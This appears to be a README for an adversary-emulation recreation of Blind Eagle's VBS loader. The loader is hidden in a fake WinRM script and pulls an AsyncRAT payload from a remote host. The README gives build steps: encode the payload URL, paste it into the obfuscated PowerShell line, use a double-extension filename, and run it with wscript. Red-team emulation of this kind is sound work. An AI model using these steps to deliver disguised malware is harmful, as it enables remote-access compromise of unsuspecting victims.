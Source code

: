 # VBS Loader

## Overview

Blind Eagle is known to use VBS loaders as a second stage or later loader of malware infection<sup>[1](https://lab52.io/blog/apt-c-36-from-njrat-to-apt-c-36/),[2](https://blogs.blackberry.com/en/2023/02/blind-eagle-apt-c-36-targets-colombia),[3](https://dciber.org/apt-c-36-ataques-continuos-direcionados-a-instituicoes-e-corporacoes-do-governo-colombiano/),[4](https://blog.scilabs.mx/en/campaign-attributed-to-apt-c-36-context-and-iocs/),[5](https://research.checkpoint.com/2023/blindeagle-targeting-ecuador-with-sharpened-tools/)</sup>. The loader for this scenario is based on a variant used in more recent campaigns. The VBS loader is hidden inside of a seemingly legitimate winRM vbs script. The purpose of this loader is to downlod and execute the second stage DLL, and is typically also targeted for persistence by the second stage DLL loader.

## Usage

The loader should be populated with the correct URL for the final payload on line `344`. The `file-ops.py` script has a function to encode the URL properly.

Typically the vbs file will be named according to the current campaigns pretext and use a double extension such as pdf.vbs<sup>[2](https://blogs.blackberry.com/en/2023/02/blind-eagle-apt-c-36-targets-colombia)</sup>. In some instances the payload will also be compressed into a .uue file or another type of zip/compressed file<sup>[1](https://lab52.io/blog/apt-c-36-from-njrat-to-apt-c-36/),[2](https://blogs.blackberry.com/en/2023/02/blind-eagle-apt-c-36-targets-colombia)</sup>. Simply double clicking the file will set off execution.

To execute via CLI:

```powershell
wscript.exe .\eagle_loader.vbs
```

## Troubleshooting

the VB loader can have issues running the PowerShell script due to the Unicode characters. Ensuring that the VB loader is saved with UTF-16LE encoding will allow PowerShell to run and parse the Unicode URL on line 344 properly.

To save the file as UTF16-LE You can use Visual Studio Code - in the lower right corner of the window the encoding should be listed:

![encoding](../../Screenshots/eagle-utf-16-le-vscode.png)

If VSCode shows a different value you can click the encoding and choose "Save With Encoding" from the action menu:

![save-with-encoding](../../Screenshots/save-with-encoding-action.png)

## Build

1) Run `file-ops.py` with the `-u` flag to generate a URL pointing to `asy.txt` `(asyncrat payload)` on your remote host. This will save a file called `url.txt` in the current folder

```powershell
py.exe .\file-ops.py -u http://<url>/<to>/asy.txt
```

2) Open `url.txt` in VSCode and copy string into line 344 between the single quotes just after `UUkXaLU = "e').G44☝░@4�tM44☝░@4�thod('VAI').Invok44☝░@4�($null, [obj44☝░@4�ct[]] ('`

## References and CTI

1) <https://lab52.io/blog/apt-c-36-from-njrat-to-apt-c-36/>

2) <https://blogs.blackberry.com/en/2023/02/blind-eagle-apt-c-36-targets-colombia>

3) <https://dciber.org/apt-c-36-ataques-continuos-direcionados-a-instituicoes-e-corporacoes-do-governo-colombiano/>

4) <https://blog.scilabs.mx/en/campaign-attributed-to-apt-c-36-context-and-iocs/>

5) <https://research.checkpoint.com/2023/blindeagle-targeting-ecuador-with-sharpened-tools/>
